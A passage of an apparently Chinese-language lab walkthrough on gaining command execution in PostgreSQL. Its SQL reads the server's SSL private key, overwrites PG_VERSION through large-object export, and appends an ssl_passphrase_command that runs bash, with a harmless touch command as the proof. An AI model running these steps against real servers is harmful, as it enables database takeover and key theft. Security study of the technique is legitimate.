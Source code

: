 - /etc/ssl/certs/ssl-cert-snakeoil.pem
- /etc/ssl/private/ssl-cert-snakeoil.key

 

通过文件读取获取私钥

select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');

 

对私钥文件加密

\# 密码为 12345678

openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key

 

\# 输出为 base64 格式

cat private_passphrase.key | base64 -w 0 > base.txt

上传 private_passphrase.key 到目标服务器上

 

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件,发现 PG_VERSION 文件符合条件，而且覆盖也没有太大影响

 

PG_VERSION 与 config_file 文件同目录，上传私钥文件覆盖 PG_VERSION，可绕过权限问题。

 

-- 将 private_passphrase.key 覆盖 PG_VERSION 文件

select lo_from_bytea(10004,decode('base64的内容,这里略','base64'));

select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');

SELECT lo_unlink(10004);

在靶机中查看验证是否写入成功

 

读取配置文件内容

select setting from pg_settings where name='config_file'

select pg_read_file('/var/lib/postgresql/data/postgresql.conf');

 

在原始配置文件内容末尾追加上ssl配置

```
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'
ssl_passphrase_command_supports_reload = on
ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'
```

转为 base64 格式

 
